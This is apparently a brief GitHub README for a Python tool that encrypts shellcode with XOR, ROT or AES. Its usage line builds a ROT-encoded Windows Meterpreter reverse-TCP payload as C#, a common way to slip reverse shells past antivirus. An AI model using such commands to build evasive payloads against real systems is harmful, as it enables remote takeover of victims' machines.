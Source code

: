 # py-shellcodeEnc
tool to encrypt(xor,rot,aes) shellcode

```
USAGE:
python senc.py -p windows/meterpreter/reverse_tcp -lhost eth0 -lport 443 -e rot -k 254 -f csharp
```


TODO - print cssharp decrypt function.
